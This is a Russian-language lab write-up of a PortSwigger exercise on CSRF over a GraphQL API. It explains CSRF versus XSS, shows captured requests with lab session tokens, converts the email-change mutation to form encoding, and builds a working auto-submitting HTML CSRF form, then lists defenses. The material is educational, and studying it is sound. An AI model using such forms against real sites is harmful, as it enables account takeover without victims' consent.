

CSRF — это когда злоумышленник заставляет браузер жертвы выполнить нежелательное действие на сайте, где жертва уже залогинена

### как работает атака  CSRF в двух словах

1 ты заходишь на сайт злоумышленника (или просто открываешь ссылку)  
2 на этой странице есть скрытая форма или изображение  
3 твой браузер автоматически отправляет запрос на сайт где ты уже залогинен  
4 вместе с запросом автоматически прикрепляются твои куки  
5 сайт думает что это ты сам сделал запрос и выполняет действие (смена email, перевод денег, смена пароля)

### главные условия для атаки CSRF

1 на сайте есть важное действие (смена email, пароля)  
2 сайт использует только куки для аутентификации  
3 параметры запроса можно предугадать (нет CSRF-токенов)

** на данный момент я прорешал уже более 130 лаб но тему CSRF еще не проходил, поэтому для решения этой GraphQL лабы  мне требуется понять суть CSRF 

-----------
####  XSS & CSRF

**XSS** — код выполняется **на самом сайте**. жертва переходит по ссылке на **уязвимый сайт**, и браузер выполняет вредоносный скрипт который прилетел с этого сайта. всё происходит в контексте уязвимого домена

**CSRF** — код выполняется **на сайте злоумышленника**. жертва переходит на **площадку атакующего**, а браузер просто отправляет запрос на уязвимый сайт, автоматически прикрепляя куки

XSS — это про внедрение кода на сайт, CSRF — про подделку запросов с другого сайта

----

#### лаба 
https://portswigger.net/web-security/graphql/lab-graphql-csrf-via-graphql-api
### Performing CSRF exploits over GraphQL
задача:
есть функционал смены емайл на сайте
и используется 
x-www-form-urlencoded - что уязвимо для CSRF
нужно создать HTML-код для CSRF атаки на смены емайл

------
x-www-form-urlencoded - это способ упаковки данных внутрь url запроса  
пример `username=wiener&password=peter&remember=on`
для простых данных, древний способ
для сложных уже исспользуют json

----

решаю лабу

запрос авторизация
```http
POST /graphql/v1 HTTP/2
Host: 0a120054033ce05881ca3e2900cf002c.web-security-academy.net
Cookie: session=Y3nIczojVnNN2fqPx6QOs9OdIIr2DhFQ
Content-Length: 232
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Accept: application/json
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"

Content-Type: application/json         << - - - - - -

Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Origin: https://0a120054033ce05881ca3e2900cf002c.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a120054033ce05881ca3e2900cf002c.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=1, i


------------------------------

ответ

HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Set-Cookie: session=5Dk3YiYAco81tL15XvImuuYb5X1OHvDF; Secure; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 113

{
  "data": {
    "login": {
      "token": "5Dk3YiYAco81tL15XvImuuYb5X1OHvDF",
      "success": true
    }
  }
}


== далее этот полученный токен используется для доступа к аккаунту
Cookie: session=5Dk3YiYAco81tL15XvImuuYb5X1OHvDF
то есть можно используя только токен попасть в чужой аккаунт
что небезопасно может быть
```

-----------------------------------


вот уже запрос на смену email 
```http
POST /graphql/v1 HTTP/2
Host: 0a120054033ce05881ca3e2900cf002c.web-security-academy.net
Cookie: session=5Dk3YiYAco81tL15XvImuuYb5X1OHvDF; session=5Dk3YiYAco81tL15XvImuuYb5X1OHvDF
Content-Length: 221
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Accept: application/json
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"

Content-Type: application/json   << - - - - - -

Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Origin: https://0a120054033ce05881ca3e2900cf002c.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a120054033ce05881ca3e2900cf002c.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"query":"\n    mutation changeEmail($input: ChangeEmailInput!) {\n        changeEmail(input: $input) {\n            email\n        }\n    }\n","operationName":"changeEmail","variables":{"input":{"email":"hacker@bk.ru"}}}

-----------------------------

ответ

HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 76

{
  "data": {
    "changeEmail": {
      "email": "hacker@bk.ru"
    }
  }
}


```

запрос на смену email приходит с `Content-Type: application/json`
это безопасно для CSRF, потому что браузер не может отправить такой запрос с другого сайта без JavaScript и CORS

-------


в обоих запросах и на авторизацию и на смену емайл используется 
для контроля поступаемых данных 
`Content-Type: application/json`

но в описании к лабе сказано - что также 
принимает и тип `x-www-form-urlencoded`

пробую:

1 запрос на смену емайл не принимает x-www-form-urlencoded
2 запрос на авторизацию тоже не принимает его 

пробовал и так и так
Content-Type: application/x-www-form-urlencoded
Content-Type: x-www-form-urlencoded

на все вариации - ответ 400 "Query not present"

ПОТОМУ  ЧТО Я НЕВЕРНО ИЗМЕНИЛ ЗАПРОС
нужно менять не только поле  Content-Typе

--------

можно легко сменить тип запроса в репитере
но чтобы тип запроса поменялся на запрос с Content-Type: x-www-form-urlencoded
нужно дваждый сменить тип запроса (прав кнопк мыши - сменить тип запроса)

и потом подставить параметры уже 

вот оригинальные параметры
```json
{"query":"\n    mutation changeEmail($input: ChangeEmailInput!) {\n        changeEmail(input: $input) {\n            email\n        }\n    }\n","operationName":"changeEmail","variables":{"input":{"email":"hacker@bk.ru"}}}
```
нужно поменять их так - чтобы они передались через URL строку
все символы сразу в url кодировке

это мой запрос целиком в url кодировке (но он очень длинный!)
```
%7B%22%71%75%65%72%79%22%3A%22%5C%6E%20%20%20%20%6D%75%74%61%74%69%6F%6E%20%63%68%61%6E%67%65%45%6D%61%69%6C%28%24%69%6E%70%75%74%3A%20%43%68%61%6E%67%65%45%6D%61%69%6C%49%6E%70%75%74%21%29%20%7B%5C%6E%20%20%20%20%20%20%20%20%63%68%61%6E%67%65%45%6D%61%69%6C%28%69%6E%70%75%74%3A%20%24%69%6E%70%75%74%29%20%7B%5C%6E%20%20%20%20%20%20%20%20%20%20%20%20%65%6D%61%69%6C%5C%6E%20%20%20%20%20%20%20%20%7D%5C%6E%20%20%20%20%7D%5C%6E%22%2C%22%6F%70%65%72%61%74%69%6F%6E%4E%61%6D%65%22%3A%22%63%68%61%6E%67%65%45%6D%61%69%6C%22%2C%22%76%61%72%69%61%62%6C%65%73%22%3A%7B%22%69%6E%70%75%74%22%3A%7B%22%65%6D%61%69%6C%22%3A%22%68%61%63%6B%65%72%40%62%6B%2E%72%75%22%7D%7D%7D
```

вот этот же запрос - но короче в два раза - здесь только некоторые символы кодированы
```http
query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker%40bk.ru%22%7D%7D
```

но оба варианта рабочие!

``` c
%0A      - перенос строки
%28%24   -   ($
%3A      -  :
+        -  пробелы
%21%29+%7B%0A   - это  !) {

в общем - все символы нужно кодировать в URL 

весь расскодир запрос выглядит так:

query=
    mutation changeEmail($input: ChangeEmailInput!) {
        changeEmail(input: $input) {
            email
        }
    }
&operationName=changeEmail&variables={"input":{"email":"hacker@bk.ru"}}

```


----

итоговый запрос такой
```http
POST /graphql/v1 HTTP/2
Host: 0a120054033ce05881ca3e2900cf002c.web-security-academy.net
Cookie: session=5Dk3YiYAco81tL15XvImuuYb5X1OHvDF; session=5Dk3YiYAco81tL15XvImuuYb5X1OHvDF
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Accept: application/json
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Origin: https://0a120054033ce05881ca3e2900cf002c.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a120054033ce05881ca3e2900cf002c.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 267

query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker%40bk.ru%22%7D%7D
```

и ответ стандартный приходит
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 76

{
  "data": {
    "changeEmail": {
      "email": "hacker@bk.ru"
    }
  }
}
```


теперь этот запрос нужно 
переделать в html для размещения на своем эксплойт сервере

можно вручную 
а можно через спец сайт

 https://csrfshark.github.io/app/    - - - Generate CSRF PoC

две секунды и все готово!
с ошибкой вот только
зедесь
`<input type="hidden" name="variables" value="{%22input%22:{%22email%22:%22hacker@bk.ru%22}}">`

ошибка в том что " кавычки " закодированны в url + потом еще и браузер кодирует их в двойное url кодирование - и сервер уже двойное кодирование не понимает, он один раз по стандарту декодировал и все! и осталось вот такая каша у него  %22email%22 с процентами

 
правильно вот так будет
`<input type="hidden" name="variables" value="{&quot;input&quot;:{&quot;email&quot;:&quot;hacker2@bk.ru&quot;}}">`
&quot; без проблем преобразуются в кавычки обычные "  "

```html
<!DOCTYPE html>
<html lang="en">
	<body>
		<h1>Form CSRF PoC</h1>
		<form method="POST" action="https://0a120054033ce05881ca3e2900cf002c.web-security-academy.net/graphql/v1">
			<input type="hidden" name="query" value="
++++mutation+changeEmail($input:+ChangeEmailInput!)+{
++++++++changeEmail(input:+$input)+{
++++++++++++email
++++++++}
++++}
">
			<input type="hidden" name="operation
			Name" value="changeEmail">
			<input type="hidden" name="variables" value="{%22input%22:{%22email%22:%22hacker@bk.ru%22}}">
			<input type="submit" value="Submit Request">
		</form>
	</body>
</html>

```




-------

пробую теперь разместить этот html на эксплойт сервере  и отправить жертве ссылку на него

отправил 
```html
<!DOCTYPE html>
<html lang="en">
  <body>
    <h1>Form CSRF PoC</h1>
    <form method="POST" action="https://0a120054033ce05881ca3e2900cf002c.web-security-academy.net/graphql/v1">
      <input type="hidden" name="query" value="mutation changeEmail($input: ChangeEmailInput!) { changeEmail(input: $input) { email } }">
      <input type="hidden" name="operationName" value="changeEmail">
      <input type="hidden" name="variables" value="{&quot;input&quot;:{&quot;email&quot;:&quot;hacker2@bk.ru&quot;}}">
      <input type="submit" value="Submit Request">
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>

```

сперва сам прешел 
# 🥳 сработало

в этой теме я решил первую свою лабу CSRF 

узнал про  Content-Type: x-www-form-urlencoded

и про то как можно через бурп быстро превратить запрос в Content-Type: x-www-form-urlencoded

и что это требуется для работы csrf  - так как для csrf нужно чтобы все параметры умещались внутри utl строки
и если сайт принимает x-www-form-urlencoded тогда это красота для scrf

## почему получилось взломать

разработчик сделал GraphQL эндпоинт который принимает запросы в двух форматах  
обычный JSON для сайта и x-www-form-urlencoded для совместимости  

и второй формат позволяет передавать параметры через URL строку, 
а это именно то что нужно для CSRF потому что браузер может отправить форму с другого сайта и куки приложатся автоматически

при этом никаких CSRF-токенов не было и действие смены email не требовало никаких дополнительных подтверждений  
всё что нужно было просто заставить жертву перейти по ссылке

понял разницу между csrf и xss


## как я взломал

сначала нашёл запрос на смену email через GraphQL  

убедился что он работает с Content-Type application/json  

потом через бурп дважды нажал change request method и получил тот же запрос но в формате x-www-form-urlencoded  

из этого запроса сгенерировал HTML форму через онлайн инструмент  `csrfshark`

но там была ошибка с двойным кодированием переменных  

я исправил заменив %22 на " внутри value чтобы браузер правильно один раз закодировал 

залил форму на эксплойт сервер 

сам перешёл по ссылке и мой email сменился

ну и жертва перейдя по ссылке - автоматом сменила бы емайл
## как защититься


не принимать x-www-form-urlencoded для мутаций

использовать CSRF-токены которые нельзя предугадать  

проверять Referer или Origin заголовки  

для критических действий запрашивать подтверждение паролем или используй SameSite куки с атрибутом Strict или Lax  

ограничить поддержку разных Content-Type только необходимыми


